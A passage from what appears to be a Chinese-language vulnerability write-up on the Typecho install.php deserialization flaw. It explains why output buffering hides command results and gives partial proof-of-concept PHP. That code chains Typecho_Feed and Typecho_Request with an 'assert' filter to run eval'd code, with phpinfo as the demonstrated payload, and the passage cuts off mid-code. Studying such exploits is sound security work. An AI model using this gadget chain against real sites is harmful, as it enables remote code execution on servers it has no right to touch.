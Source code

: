 ```
    }
}
$config=array("adapter"=>new Typecho_Feed(),"prefix"=>'dawnt0wn');
echo base64_encode(serialize($config));
?>
```

但是返回了500

![image-20210814115639993](images/17.png)

在网上搜索后才知道在Db.php中对反序列化的内容抛出了异常导致了报错

![image-20210814120054566](images/18.png)

抛出了一个Typecho_Db_Exception异常

在common.php中

![image-20210814120626764](images/19.png)

有一个`@ob_end_clean();`这个会清理缓冲

其实在install.php最开始就调用了ob_start()

![image-20210814121156058](images/20.png)

在文档中的讲解如下

![image-20210814121254087](images/21.png)

但是我们进行注入的代码触发了他原本的exception,最后会执行ob_end_clean()来清理缓冲

这样的话我们需要想办法，使得代码不会执行到exception，这样原本的缓冲区数据就会被输出出来。

我看seebug上的作者给了两种解决方案

1、因为`call_user_func`函数处是一个循环，我们可以通过设置数组来控制第二次执行的函数，然后找一处exit跳出，缓冲区中的数据就会被输出出来。

2、第二个办法就是在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来。

暂时知道有两种方法来输出payload的结果：
1）提前exit程序，让程序不运行到抛出异常处
2）提前将缓冲区内容打印到页面上

所以我就简单粗暴地把exit放在了payload里面

poc

```
<?php
class Typecho_Request
{
    private $_filter=[];
    private $_params=[];
    public function __construct()
    {
        $this->_filter[]='assert';
        $this->_params=["screenName"=>"eval('phpinfo();exit;')"];
    }
}
class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    private $_type;
    private $_items=array();
    public function __construct()
    {
        $this->_type = self::RSS2;
        $this->_items=array(array("author"=>new Typecho_Request()));
```